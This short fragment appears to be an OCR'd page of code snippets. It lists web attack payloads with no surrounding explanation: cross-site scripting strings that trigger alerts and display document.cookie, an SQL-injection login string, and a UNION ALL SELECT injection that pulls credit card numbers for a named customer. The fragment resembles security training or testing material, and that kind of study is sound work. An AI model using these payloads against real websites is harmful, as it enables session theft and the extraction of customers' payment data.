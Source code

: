 ```javascript
<img onmouseover="alert('XSS')">

```
```javascript
test'or''!='2@test.com
```

```javascript
<input type="text" name="address1" value="" onfocus="alert(document.cookie)">
```

```javascript
(select  username from customer where username='Mary Martin')
```

```javascript
' UNION ALL SELECT creditCardNumber FROM customers WHERE customerName = 'Mary Martin
```